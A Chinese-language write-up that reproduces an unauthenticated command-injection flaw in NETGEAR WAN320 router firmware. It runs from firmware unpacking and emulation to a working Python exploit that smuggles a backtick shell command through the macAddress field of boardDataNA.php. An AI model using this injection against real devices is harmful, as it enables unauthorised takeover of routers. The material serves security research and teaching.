

# netgearw32

品牌：NETGEAR（网件）
型号：netgearwan320


# 1、信息收集
## 1.1、基础信息收集
### 1.1.1、binwalk

```
binwalk rootfs.squashfs
```


发现这个是Squashfs文件系统。

然后对文件系统进行解包。
```
binwalk -Me rootfs.squashfs
```


### 1.1.2、file&checksec


发现文件是mips大端32位文件，并且没有开canary、NX和PIE。


### 1.1.3、firmAE模拟

```
sudo ./run.sh -d netgear ./firmwares/netgear/rootfs.squashfs
```


## 1.2、关于启动项文件的分析
### 1.2.1、rcS文件
```
#!/bin/sh

# Start all init scripts in /etc/init.d
# executing them in numerical order.
#
# Source genric defination script.
. /etc/generic_include.sh

for i in /etc/init.d/S??* ;do

     # Ignore dangling symlinks (if any).
     [ ! -f "$i" ] && continue
sleep 1 

     case "$i" in
	*.sh)
	    # Source shell script for speed.
	    (
		trap - INT QUIT TSTP
		set start
		. $i
	    )
	    ;;
	*)
	    # No sh extension, so fork subprocess.
	    $i start
	    ;;
    esac
done

```
这个文件就是循环启动/etc/init.d/文件夹里面的S开头S??*的文件命名形式的文件。


### 1.2.2、S045lighttpd

我们着重关注分析一下lighttpd的启动文件。


```
#!/bin/sh
#
# Lighttpd
#

[ -f ${LIGHTTPD} ] || exit 0

start() {
        ncecho 'Starting web server.        '
	start-stop-daemon -S -q -b -x ${LIGHTTPD} -- -f ${LIGHTTPD_CONF}
}

stop() {
        ncecho 'Stoping web server.         '
	start-stop-daemon -K -q -b -x ${LIGHTTPD} -- -f ${LIGHTTPD_CONF}
}

restart() {
        ncecho 'Restarting web server.      '
	stop
	start
}

case "$1" in
  start)
        start
        cecho green '[DONE]'
        ;;
  stop)
        stop
        cecho green '[DONE]'
        ;;
  restart|reload)
        restart
        cecho green '[DONE]'
        ;;
  *)
        echo $"Usage: $0 {start|stop|restart}"
        exit 1
esac

exit $?
```

1. **检查 Lighttpd 可执行文件是否存在：**
   ```sh
   [ -f ${LIGHTTPD} ] || exit 0
   ```
   - 如果 `${LIGHTTPD}` 文件不存在，则退出脚本，避免继续执行。

2. **定义 `start` 函数：**
   ```sh
   start() {
       ncecho 'Starting web server.        '
       start-stop-daemon -S -q -b -x ${LIGHTTPD} -- -f ${LIGHTTPD_CONF}
   }
   ```
   - 打印消息 "Starting web server."，使用 `ncecho` 函数输出。
   - 使用 `start-stop-daemon` 命令以后台方式 (`-b`) 启动 (`-S`) `${LIGHTTPD}` 可执行文件，使用 `${LIGHTTPD_CONF}` 配置文件。

3. **定义 `stop` 函数：**
   ```sh
   stop() {
       ncecho 'Stoping web server.         '
       start-stop-daemon -K -q -b -x ${LIGHTTPD} -- -f ${LIGHTTPD_CONF}
   }
   ```
   - 打印消息 "Stoping web server."，使用 `ncecho` 函数输出。
   - 使用 `start-stop-daemon` 命令以后台方式 (`-b`) 停止 (`-K`) `${LIGHTTPD}` 可执行文件，使用 `${LIGHTTPD_CONF}` 配置文件。

4. **定义 `restart` 函数：**
   ```sh
   restart() {
       ncecho 'Restarting web server.      '
       stop
       start
   }
   ```
   - 打印消息 "Restarting web server."，使用 `ncecho` 函数输出。
   - 调用 `stop` 函数停止 Web 服务器。
   - 调用 `start` 函数重新启动 Web 服务器。

5. **处理命令行参数：**
   ```sh
   case "$1" in
     start)
           start
           cecho green '[DONE]'
           ;;
     stop)
           stop
           cecho green '[DONE]'
           ;;
     restart|reload)
           restart
           cecho green '[DONE]'
           ;;
     *)
           echo $"Usage: $0 {start|stop|restart}"
           exit 1
   esac
   ```
   - 根据传入的参数 `$1`，分别调用 `start`、`stop` 或 `restart` 函数，并使用 `cecho` 函数以绿色打印 "[DONE]"。
   - 如果参数不是 `start`、`stop` 或 `restart`，则打印使用说明并退出。

6. **退出脚本：**
   ```sh
   exit $?
   ```
   - 使用上一条命令的退出状态作为脚本的退出状态。


## 1.3、关于web服务的启动
### 1.3.1、查看是什么web服务（firmwalker）
使用firmwalker跑一下文件系统。


我们看到这个固件的web服务是lighttpd

### 1.3.2、启动过程

首先在我们刚才分析的rcS文件里面

然而我们上面分析的S045lighttpd.sh文件，也就是说S045lighttpd.sh文件在启动时，带了一个start的参数，我们再看S045lighttpd.sh的内容


我们看到这里是个case，而我们带进来的参数是start，所以这里面执行的是启动，所以lighttpd是在这个地方被启动的。


# 2、漏洞
## 2.1、漏洞复现

### 2.1.1、复现思路

我们模拟器来一个固件，先抓包分析一下


我们看到这个固件的的一些数据的处理是在.php或者.html文件，调用也是（多抓一些包或者分析一下文件目录就知道了）我想说的是特这个固件不像我们之前遇到的前端的请求是发给一些.cgi的文件或者一些别的二进制文件。

我们把这个里面的固件里面的所有文件都访问一遍，看看有没有可以不授权接可以的界面。

```
find ./ -type f -exec echo {} \;|grep -vE 'gif|css|js|ico|png' > a.txt
```


保存好在burp进行爆破访问。


发现这边有比较可以的界面  
因为：
* 未授权
* 有输入点
下一步就是确认一下看看有没有漏洞。

上面我们分析到这个固件.php文件处理的这些数据，我们要搞清楚的就是关于.php文件的危险函数（命令执行的）
* system()该函数会把执行结果输出，并把输出结果的最后一行作为字符串返回，如果执行失败则返回false。
* passthru()此函数只调用命令，并把运行结果原样地直接输出，该函数没有返回值。
* exec()不输出结果，返回执行结果的最后一行。
* shell_exec()不输出结果，返回执行结果。使用反引号(``)时调用的就是此函数。


那么我们接下来就是对危险函数进查找

```
grep -ir "exec"
```


我们发现在我们 burp 上爆破的时候的的两个存疑的文件存在危险函数。

那么下一步，我们就是要确定这个能不能实现利用。


我们打开这两个前端文件，配合抓包分析一下代码逻辑。以boardDataWW.php网页为例。（另一个boardDataNA.php是一样的）


可以看到，我们输入的给到了macAddress变量，在代码中，对这个变量进行过滤，


这个正则表达式的意思是：

- `[` 和 `]`：这两个字符用来定义一个字符集（character class），即匹配方括号内任意一个字符的集合。
- `0-9`：表示匹配任何一个数字字符，从 '0' 到 '9'。
- `a-f`：表示匹配任何一个小写字母，从 'a' 到 'f'。这通常用于表示十六进制数的下半部分（0-9a-f 对应十六进制的一个位）。
- `A-F`：与 `a-f` 类似，但匹配的是大写字母，从 'A' 到 'F'。这同样用于十六进制数的表示。
- `{12,12}`：这是一个量词（quantifier），指定前面的字符集（在这个例子中是 `0-9a-fA-F`）必须恰好连续出现12次。由于这里的起始值和结束值都是12，这实际上是一个固定长度的要求，即必须严格匹配12个字符。

综合起来，`"[0-9a-fA-F]{12,12}"` 这个正则表达式用于匹配一个恰好由12个十六进制数字符（可以是0-9、a-f或A-F中的任意字符）组成的字符串。


所以，这个的命令执行，在这个页面的前端进行了过滤，不过我们上面知道，这个是非授权的访问，而且也可以通过burp发包的形式来构造我们的请求包，来试一下可不可以进行命令执行。


### 2.1.2、检查执行结果

#### 方法一、

因为我们已经firmAE模拟好了，我们进shell检查一下我们是不是命令执行成功了


发现是可以的。

#### 方法二、
加入我们没有模拟起来，那么我们可以尝试这把想要写的东西放到一个web界面里面，那么我们发包的命令需要更改一下。


这样可以看到我们的命令有没有执行成功。


## 2.2、exp


源码：
```
import requests

burp0_url = "http://192.168.0.100:80/boardDataNA.php"
burp0_cookies = {"PHPSESSID": "bb6c9d60fd4496d3467030bc3ab03cd4"}
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "Origin": "http://192.168.0.100", "Content-Type": "application/x-www-form-urlencoded", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://192.168.0.100/boardDataNA.php", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
burp0_data = {"macAddress": "123456789123`echo aaaaaa > a.php`", "reginfo": "1", "writeData": "Submit"}
requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)


# import requests

burp1_url = "http://192.168.0.100:80/a.php"
burp1_cookies = {"PHPSESSID": "bb6c9d60fd4496d3467030bc3ab03cd4"}
burp1_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
a=requests.get(burp1_url, headers=burp1_headers, cookies=burp1_cookies)

print(a.text)

```


# 3、关于一些细节的解释
## 3.1、页面的过滤

在这两个页面我们输入点的时候，会发现只有输入正好的12位【0-9,a-f,A-F】的值才会提交成功，否则报错告诉你这个mac格式不对。


我们仔细看这个代码后会发现这里面在你提交的时候会对你输入的值进行检查，


这个正则表达式
```
(/^[0-9A-Fa-f]{12,12}$/.test(mac))
```

这行代码是JavaScript中的一个正则表达式测试，用于检查变量mac是否是一个严格符合特定格式的字符串。具体来说，这个正则表达式检查mac是否是一个长度为12个字符的字符串，且这12个字符全部由0-9的数字和A-F（不区分大小写，因为正则表达式中使用了a-f，并且i标志没有被设置，但[0-9A-Fa-f]自动包含了大小写不敏感的匹配）的十六进制字符组成。


## 3.2、执行的过滤

我们的看这个php的代码


这个正则表达式
```
[0-9a-fA-F]{12,12}
```
这个正则表达式 "[0-9a-fA-F]{12,12}" 用于匹配一个特定格式的字符串，并在这个上下文（PHP代码片段）中被用来检查 $_REQUEST['macAddress'] 是否包含这样的字符串。下面是对这个正则表达式的详细解释：
[ 和 ]：这两个字符用来定义一个字符集（character class），即匹配方括号内任意一个字符的集合。
0-9：表示匹配任何一个数字字符，从 '0' 到 '9'。
a-f：表示匹配任何一个小写字母，从 'a' 到 'f'。这通常用于表示十六进制数的下半部分（0-9a-f 对应十六进制的一个位）。
A-F：与 a-f 类似，但匹配的是大写字母，从 'A' 到 'F'。这同样用于十六进制数的表示。
{12,12}：这是一个量词（quantifier），指定前面的字符集（在这个例子中是 0-9a-fA-F）必须恰好连续出现12次。由于这里的起始值和结束值都是12，这实际上是一个固定长度的要求，即必须严格匹配12个字符。
综合起来，"[0-9a-fA-F]{12,12}" 这个正则表达式用于匹配一个恰好由12个十六进制数字符（可以是0-9、a-f或A-F中的任意字符）组成的字符串。

他这个好像是只检查前12个字符是不是【0-9,a-f,A-F】组成的（可以自己多发包试试，我这里只举一个例子）

我这里前面给的是13位


执行是成功的。


我再改一下，我这次给11位。


发现执行是失败的。
